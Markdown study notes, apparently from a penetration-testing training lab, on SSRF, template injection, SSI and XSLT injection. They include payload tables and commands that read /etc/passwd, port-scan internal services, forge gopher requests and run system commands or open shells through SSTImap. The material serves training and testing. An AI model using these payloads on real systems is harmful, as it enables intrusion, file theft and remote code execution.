

# Server-Side Attacks

## Server Side Request Forgery (SSRF)

[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

### Identification

Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):

- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
- Use burp to check post parameter for dynamically loaded content.
- Try changing the request to see if error infromation.
- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.

### Exploitation

#### LFI

Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01`.

#### Port Scan

Internal portscan by accessing ports on localhost:

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

#### Fuzzing Endpoints

Accessing restricted endpoints:

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

#### Using Gopher

Consider we find an endpoint admin.php through fuzzing which returns a POST form:


To send a POST request to /admin.php containing the password in the adminpw POST parameter we can use gopher: `dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01`

Gopher crafted a post request within the `dataserver` post parameter.

Gopher can craft URLs that access other internal services through post parameters:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

We can use [Gopherus](https://github.com/tarunkant/Gopherus) to craft these payloads for us.

### Protocols

- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
- `file:///etc/passwd` can be used for local file inclusion
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services

### Blind SSRF

- Can still confirm by sending request to a netcat listener.
- Local port scan may work by comparing error messages, but error message may be the same for closed ports/other services that are open.
- LFI attempts may show different error messages for files that exist versus files that don't.

## Server Side Template Injection (SSTI)

### Tepmlate engines

- [Jinga](https://jinja.palletsprojects.com/en/stable/)
- [Twig](https://twig.symfony.com/)

### Exploitation

Templating Engines are used to dynamically generate content.

### Test String

- `${{<%[%'"}}%\.` Should result in an error message if the template is vulnerable.
- Follow the below tree looking to find when payload is executed successfully i.e. 7*7 returns 49.
- {{7*'7'}} will be 7777777 in Jinja, while in Twig, the result will be 49.



### Jinga(python)

| Payload | Description |
|---------|-------------|
| `{{ config.items() }}` | Dump web app config file |
| `{{ self.__init__.__globals__.__builtins__ }}` | Dump built in functions |
| `{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}` | Use the python `open()` function to perform LFI |
| `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` | Import the python `os` library to perform RCE |

### Twig(PHP)

| Payload | Description |
|---------|-------------|
| `{{ _self }}` | Dump a small amount of info about the current template |
| `{{ "/etc/passwd"\|file_excerpt(1,-1) }}` | Use the `file_excerpt()` function from the [Symfony](https://symfony.com/) framework to perform LFI |
| `{{ ['id'] \| filter('system') }}` | RCE using twigs `filter()` function to pass arguments to `system` the built-in PHP function |

[Payload all the things cheat sheet for other templates](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

### SSTImap

- For identifying and exploiting SSTI attacks
- https://github.com/vladko312/SSTImap

```bash
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
python3 sstimap.py -u http://172.17.0.2/index.php?name=test # Provide target URL to identify SSTI
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd' # Download remote file to local machine
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id # Execute system commands
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell # Obtain interactive shell
```


## Server Side Includes (SSI) Injection - Directives

- Typical SSI file extensions include .shtml, .shtm, and .stm (can be configured for arbitrary file extensions).
- SSI utilizes directives to add dynamically generated content to a static HTML page.
- Occurs when an attacker can inject SSI directives into a file (usually in the web root directory) that is subsequently served by the web server.

| Directive | Description |
|-----------|-------------|
| `<!--#name param1="value1" param2="value" -->` | Directive format |
| `<!--#printenv -->` | Print the environment variables |
| `<!--#config errmsg="Error!" -->` | Change config (the error message in this example) |
| `<!--#echo var="DOCUMENT_NAME" var="DOCUMENT_URI" var="LAST_MODIFIED" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file (only allows files in the web root directory) |

## eXtensible Stylesheet Language Transformation (XSLT) Injection

- [Documentation](https://www.w3.org/TR/xslt-30/)
- XSLT can be used to define a data format which is subsequently enriched with data from the XML document.
- Similar structure to XML.
- It contains XSL elements within nodes prefixed with the xsl-prefix
- Example:

```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all fruits of medium size ordered by their color:
		<xsl:for-each select="fruit">
			<xsl:sort select="color" order="descending" />
			<xsl:if test="size = 'Medium'">
				<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
			</xsl:if>
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

### Elements

| Element | Description |
|---------|-------------|
| `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
| `<xsl:value-of>` | Extracts the value of the XML node specified in the select attribute |
| `<xsl:for-each>` | Enables looping over all XML nodes specified in the select attribute |
| `<xsl:sort>` | Specifies the node to sort elements in a for loop by in the select argument. A sort order may be specified in the order argument |
| `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |

### Injection Payloads

- `<` Test payload to see if an error message is returned.

#### Information Disclosure

| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="system-property('xsl:version')" />` | Version |
| `<xsl:value-of select="system-property('xsl:vendor')" />` | Vendor |
| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | Vendor URL |
| `<xsl:value-of select="system-property('xsl:product-name')" />` | Product name |
| `<xsl:value-of select="system-property('xsl:product-version')" />` | Product Version |

**Tip:** Pass all the above payloads in one go separated by `<br/>` for formatting.

#### LFI

| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | LFI for XSLT v1.0 |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | LFI for XSLT v2.0 |

#### RCE

| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="php:function('system','id')" />` | RCE if the XSLT processor supports PHP functions |